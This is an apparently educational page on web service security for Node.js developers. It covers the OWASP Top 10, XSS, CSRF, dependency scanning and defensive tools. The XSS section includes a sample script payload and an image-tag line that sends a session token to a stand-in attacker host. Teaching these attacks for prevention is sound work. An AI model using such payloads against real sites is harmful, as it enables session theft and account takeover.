 # Web Service Security

We are going to focus on security related topic in this section. The target is to get familiar with common vulnerabilities that may be exposed by web services and how to avoid them.

## OWASP Top 10 Vulnerabilities

The Open Web Application Security Project \(OWASP\) is a non-profit organization dedicated to providing unbiased, practical information about application security. The [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project) was updated in 2017 to provide guidance to developers and security professionals on the most critical vulnerabilities that are commonly found in web applications, which are also easy to exploit. These 10 application risks are dangerous because they may allow attackers to plant malware, steal data, or completely take over your computers or web servers.

For those who are new to security issues, they may find it hard to interpret those issues. Luckily there is a project called [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html) which demonstrates some of the security issues. It actually demonstrates the top 10 issues identified in year 2013, which is a bit different from the list in 2017. Nevertheless, it's still a good tool to learn about those security issues. \(Note: to play with this node application, you need to install [docker](https://www.docker.com/) on your computer.\)

Another website to learn OWASP Top 10 vulnerabilities is called [OWASP Juice Shop](https://github.com/bkimminich/juice-shop), which is an intentionally insecure webapp for security trainings written entirely in JavaScript which encompasses the entire OWASP Top Ten and other severe security flaws.

Out of those top 10 vulnerabilities, XSS and CSRF are very famous and worth more discussion.

### XSS \(Cross Site Scripting\)

Cross-site scripting, abbreviated to “XSS”, is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim’s browser. Once a hacker has done that, there’s a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

Here is an example of XSS Attack.

Assume you are filling in a form on some website. Let's say it's something innocuous like the quantity field on an order form or a comment on a comment form.

As a hacker, you can try to paste `<script>alert("haha")</script>` into the form in your system that will be viewable to someone else.

Now, what happens when the administrator views your latest orders? Basically, that javascript is now operating in the security context of the administrator. It could do something worse than alert\(\)... for example, it could grab his session token or a cookie's secret value \(depending on the cookie\) and send it off to `<img src=evilattacker.xyz/clear.gif?sid=xxxx>`, and \(assuming you control that `evilattacker.xyz` website\) now you can get those session cookies or tokens and you can login to the system as the administrator.

This is just one way to launch XSS attack. There are many variants. You can find more examples and details from the references:

- [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
- [Veracode: XSS](https://www.veracode.com/security/xss)
- [OWASP: Cross-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)
- [Cross-site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)
- [XSS Explained](https://www.securesolutions.no/xss-explained/)

How can we prevent from this kind of attack?

OWASP provided a [XSS \(Cross Site Scripting\) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)

Here are a few quick tips for developers:

- Make sure you always validate and escape the data submitted by the user, and do some sanitization on the user input data when you need to display them \(i.e. display the user input data as pure text, instead of loading that as javascript code\). For this purpose, you can use libraries like [xss-filter](https://github.com/yahoo/xss-filters)
- Use tools like [helmet](https://helmetjs.github.io/docs/xss-filter/) to set `X-XSS-Protection` header in HTTP response, so that the browser can do some basic detection on XSS attack.
- Another trick is to use [Http-Only Cookie](https://www.owasp.org/index.php/HttpOnly) so that session cookies cannot be accessed from JavaScript.
- If you need to store some information into the storage space in browser, use `session storage` instead of `local storage` if you don't need that information after the browser tab is closed.

As a user, you can protect yourself by using some browser side security features. Chrome and Safari has a built-in feature called [XSS Auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/) that tires to mitigate XSS attacks although it can’t catch all possible XSS variants.

### CSRF \(Cross Site Request Forgery\)

Cross-site request forgery also known as single-click attack or session traversing, in which a malicious website will throw a request to a web application that the user is already authenticated against from a different website. This way an attacker can access functionality in a targeted web application via the victim’s already authenticated browser.

Imagine the following case: A User is logged into GMail and checks his mails. After she stays logged in for a while - that's a regular behavior - the user opens a new Tab and navigates to another site. This site contains code that fires a regular HTTP Request to the GMail servers - an image tag is enough to do so. Since the user is still logged in, the request is processed with her privileges - maybe changes some settings or deletes some mails, thanks to the fact that HTTP is stateless - that's it. The attack has been performed successfully and neither the user nor GMail haven't even noticed.

[Here is another example](https://youtu.be/hW2ONyxAySY), watch the first 8 minutes of this video.

How can we prevent from this kind of attack?

One of the idea is called [CSRF Token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens), which validate user requests with a unique token that can only come from the genuine user session.

For Express.js based applications, you can generate CSRF tokens with a middleware called [csurf](https://github.com/expressjs/csurf).

As an end user, you can protect yourself against this attack using Firefox extension called [NoScript](https://noscript.net/) or Chrome plugin [uMatrix](https://github.com/gorhill/uMatrix) or [uBLock](https://github.com/gorhill/uBlock).

To get more details on CSRF attack, here are a few more articles:

- [Understanding CSRF](https://github.com/pillarjs/understanding-csrf)
- [Understanding the CSRF Vulnerability \(A Beginner Guide\)](http://www.hackingarticles.in/understanding-csrf-vulnerability-beginner-guide/)
- [CSRF DEMYSTIFIED](http://www.gnucitizen.org/blog/csrf-demystified/)
- [Wikipedia entry on CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

## Follow Secure Coding Practices

As a developer, you need to be aware of the common security concerns and follow best practices when you write code.

Here are some of the guidelines:

- [Mozilla Secure Coding Guidelines](https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines)
- [OWASP Secure Coding Cheat Sheet](https://www.owasp.org/index.php/Secure_Coding_Cheat_Sheet)
- [JavaScript Web Application Secure Coding Practices](https://checkmarx.gitbooks.io/js-scp/)

You can also make use tools that automatically scan your code for potential security issues:

- [ESLint Plugin To Detect Possible Security Issues in Codes](https://www.npmjs.com/package/eslint-plugin-security)

## Make sure your NPM dependencies are secure

When you develop JavaScript based applications, you would have a lot of dependencies on 3rd party modules. How can you be confident that those dependencies do not have known vulnerabilities? Remember, using components with known vulnerabilities" is a part of the OWASP Top 10 and insecure libraries can pose a huge risk for your web app.

What are the vulnerabilities are we talking about? You can get some examples [here](https://snyk.io/vuln?packageManager=npm)

The tools below can scan the libraries you use and detect those with vulnerabilities

- [Snyk](https://snyk.io/)
- [Node Security Platform \(a.k.a NSP\)](https://nodesecurity.io/)
- [Retire.js](https://retirejs.github.io/retire.js/)

You should regularly review your dependencies. Avoid the unnecessary ones and make the rest up-to-date. To ensure your dependencies are up-to-date, you can use tools like [greenkeeper](https://greenkeeper.io/)

Here are a few articles to give you more tips on how to manage the risks from 3rd party libraries:

- [Controlling the Node.js security risk of npm dependencies](https://blog.risingstack.com/controlling-node-js-security-risk-npm-dependencies/) is a good article talking about the process to reduce the security risks from 3rd party dependencies.
- [Quick Introduction on GreenKeeper/Snyk/NSP/Retire.js](https://developers.redhat.com/blog/2017/04/12/using-snyk-nsp-and-retire-js-to-identify-and-fix-vulnerable-dependencies-in-your-node-js-applications/)
- [Eliminating Known Vulnerabilities With Snyk](https://www.smashingmagazine.com/2016/01/eliminating-known-security-vulnerabilities-with-snyk/)

## Labs

### Learn how to use Helmet

Follow this tutorial to learn about how to use Helmet: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Learn how to use csurf to prevent CSRF attack

Follow this tutorial to learn about how to use csurf: [https://www.twilio.com/blog/2017/11/securing-your-express-app.html](https://www.twilio.com/blog/2017/11/securing-your-express-app.html)

### Try to Fix OWASP Top 10 Vulnerabilities

Follow the guide to learn the TOP10 OWASP vulnerabilities

- [OWASP NodeGoat](https://github.com/OWASP/NodeGoat)
- [OWASP Juice Shop](https://github.com/bkimminich/juice-shop)
- [Damn Vulnerable NodeJS Application](https://appsecco.com/books/dvna-developers-security-guide/intro.html)

## Resources

### More Labs

- [HacksExplaining](https://www.hacksplaining.com/lessons)

### Recommended Readings

- [Node JS Security Tips](https://blog.risingstack.com/node-js-security-tips/)
- [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
- [9 Security Practice to Keep Express from Getting Pwned](https://nodesource.com/blog/nine-security-tips-to-keep-express-from-getting-pwned/)
- [Secure Express App with various HTTP headers](https://github.com/helmetjs/helmet)
- [Writing Secure Express.js Apps](https://blog.liftsecurity.io/2012/12/07/writing-secure-express-js-apps)
- [Building Secure JavaScript Apps](https://nemethgergely.com/building-secure-javascript-applications/)
- [Simple Steps to Secure Your Express Node Application](http://scottksmith.com/blog/2014/09/04/simple-steps-to-secure-your-express-node-application/)
- [Awesome Node.js Security resources](https://github.com/lirantal/awesome-nodejs-security)
